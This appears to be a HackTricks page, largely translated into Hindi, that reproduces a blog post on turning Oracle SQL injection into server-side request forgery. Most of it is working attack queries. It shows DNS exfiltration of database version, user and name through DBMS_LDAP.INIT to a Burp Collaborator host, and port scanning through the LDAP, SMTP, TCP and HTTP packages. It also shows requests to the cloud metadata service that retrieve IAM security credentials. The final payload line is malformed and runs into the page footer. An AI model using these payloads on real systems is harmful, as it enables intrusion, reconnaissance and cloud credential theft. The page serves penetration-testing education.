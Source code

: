 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**इस पोस्ट को [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/) से हटाए गए पोस्ट की वेबैक मशीन कॉपी सर्व करें।**

## SSRF

Oracle का उपयोग Out of Band HTTP और DNS अनुरोध करने के लिए अच्छी तरह से प्रलेखित है लेकिन SQL डेटा को इंजेक्शन में निकालने के एक साधन के रूप में। हम हमेशा इन तकनीकों/कार्यात्मकताओं को अन्य SSRF/XSPA करने के लिए संशोधित कर सकते हैं।

Oracle स्थापित करना वास्तव में दर्दनाक हो सकता है, विशेष रूप से यदि आप कमांड आजमाने के लिए एक त्वरित उदाहरण सेट करना चाहते हैं। मेरे दोस्त और सहयोगी [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), ने मुझे [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) की ओर इशारा किया जिसने मुझे एक t2.large AWS Ubuntu मशीन और Docker पर एक उदाहरण सेट करने की अनुमति दी।

मैंने `--network="host"` ध्वज के साथ डॉकर कमांड चलाया ताकि मैं इस ब्लॉग पोस्ट के दौरान पूर्ण नेटवर्क एक्सेस के साथ Oracle को एक मूल स्थापना के रूप में अनुकरण कर सकूं।
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle पैकेज जो URL या Hostname/Port Number विनिर्देशन का समर्थन करते हैं <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

किसी भी पैकेज और कार्यों को खोजने के लिए जो एक होस्ट और पोर्ट विनिर्देशन का समर्थन करते हैं, मैंने [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html) पर एक Google खोज की। विशेष रूप से,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
The search returned the following results (not all can be used to perform outbound network)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

यह कच्चा खोज स्पष्ट रूप से `DBMS_LDAP` जैसे पैकेजों को छोड़ देता है (जो एक होस्टनाम और पोर्ट नंबर पास करने की अनुमति देता है) क्योंकि [डॉक्यूमेंटेशन पृष्ठ](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) आपको [एक अलग स्थान](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) पर ले जाता है। इसलिए, अन्य Oracle पैकेज हो सकते हैं जिन्हें आउटबाउंड अनुरोध करने के लिए दुरुपयोग किया जा सकता है जिन्हें मैंने छोड़ दिया हो।

किसी भी मामले में, आइए उन कुछ पैकेजों पर नज़र डालते हैं जिन्हें हमने खोजा और ऊपर सूचीबद्ध किया है।

**DBMS\_LDAP.INIT**

`DBMS_LDAP` पैकेज LDAP सर्वरों से डेटा तक पहुँचने की अनुमति देता है। `init()` फ़ंक्शन एक LDAP सर्वर के साथ एक सत्र को प्रारंभ करता है और एक होस्टनाम और पोर्ट नंबर को एक तर्क के रूप में लेता है।

इस फ़ंक्शन को पहले DNS के माध्यम से डेटा के एक्सफिल्ट्रेशन को दिखाने के लिए दस्तावेजित किया गया है, जैसे नीचे
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
हालांकि, यह देखते हुए कि यह फ़ंक्शन एक होस्टनाम और एक पोर्ट नंबर को तर्क के रूप में स्वीकार करता है, आप इसका उपयोग पोर्ट स्कैनर की तरह भी कर सकते हैं।

यहाँ कुछ उदाहरण हैं
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
`ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` यह दर्शाता है कि पोर्ट बंद है जबकि एक सत्र मान पोर्ट को खुला दिखाता है।

**UTL\_SMTP**

`UTL_SMTP` पैकेज SMTP के माध्यम से ई-मेल भेजने के लिए डिज़ाइन किया गया है। [Oracle दस्तावेज़ साइट पर प्रदान किया गया उदाहरण दिखाता है कि आप इस पैकेज का उपयोग करके ई-मेल कैसे भेज सकते हैं](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478)। हमारे लिए, हालांकि, दिलचस्प बात यह है कि एक होस्ट और पोर्ट विनिर्देशन प्रदान करने की क्षमता है।

नीचे एक कच्चा उदाहरण दिखाया गया है जिसमें `UTL_SMTP.OPEN_CONNECTION` फ़ंक्शन है, जिसमें 2 सेकंड का टाइमआउट है।
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
`ORA-29276: transfer timeout` यह दिखाता है कि पोर्ट खुला है लेकिन कोई SMTP कनेक्शन स्थापित नहीं हुआ जबकि `ORA-29278: SMTP transient error: 421 Service not available` यह दिखाता है कि पोर्ट बंद है।

**UTL\_TCP**

`UTL_TCP` पैकेज और इसके प्रक्रियाएँ और फ़ंक्शन [सेवाओं के साथ TCP/IP आधारित संचार की अनुमति देते हैं](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190)। यदि किसी विशेष सेवा के लिए प्रोग्राम किया गया है, तो यह पैकेज आसानी से नेटवर्क में प्रवेश करने का एक तरीका बन सकता है या पूर्ण सर्वर साइड अनुरोध कर सकता है क्योंकि TCP/IP कनेक्शन के सभी पहलुओं को नियंत्रित किया जा सकता है।

उदाहरण [Oracle दस्तावेज़ साइट पर दिखाता है कि आप इस पैकेज का उपयोग करके एक कच्चा TCP कनेक्शन कैसे बना सकते हैं ताकि एक वेब पृष्ठ को प्राप्त किया जा सके](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190)। हम इसे थोड़ा और सरल बना सकते हैं और इसका उपयोग मेटाडेटा उदाहरण के लिए या किसी मनमाने TCP/IP सेवा के लिए अनुरोध करने के लिए कर सकते हैं।
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
दिलचस्प बात यह है कि कच्चे TCP अनुरोध बनाने की क्षमता के कारण, इस पैकेज का उपयोग सभी क्लाउड प्रदाताओं के Instance मेटा-डेटा सेवा को क्वेरी करने के लिए भी किया जा सकता है क्योंकि विधि प्रकार और अतिरिक्त हेडर सभी TCP अनुरोध के भीतर पास किए जा सकते हैं।

**UTL\_HTTP और वेब अनुरोध**

शायद हर Out of Band Oracle SQL Injection ट्यूटोरियल में सबसे सामान्य और व्यापक रूप से प्रलेखित तकनीक [`UTL_HTTP` पैकेज](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070) है। इस पैकेज को प्रलेखन द्वारा इस प्रकार परिभाषित किया गया है - `UTL_HTTP पैकेज SQL और PL/SQL से हाइपरटेक्स्ट ट्रांसफर प्रोटोकॉल (HTTP) कॉलआउट करता है। आप इसका उपयोग HTTP के माध्यम से इंटरनेट पर डेटा तक पहुँचने के लिए कर सकते हैं।`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
आप इसके साथ कुछ मौलिक पोर्ट स्कैनिंग करने के लिए भी इसका उपयोग कर सकते हैं, जैसे कि प्रश्नों के साथ
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` या `TNS:operation timed out` यह संकेत है कि TCP पोर्ट बंद है, जबकि `ORA-29263: HTTP protocol error` या डेटा यह संकेत है कि पोर्ट खुला है।

एक और पैकेज जिसका मैंने अतीत में विभिन्न सफलताओं के साथ उपयोग किया है वह है [`GETCLOB()` विधि `HTTPURITYPE` Oracle अमूर्त प्रकार की](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705) जो आपको एक URL के साथ इंटरैक्ट करने की अनुमति देती है और HTTP प्रोटोकॉल के लिए समर्थन प्रदान करती है। `GETCLOB()` विधि का उपयोग एक URL से GET प्रतिक्रिया को [CLOB डेटा प्रकार](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html) के रूप में लाने के लिए किया जाता है। [select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

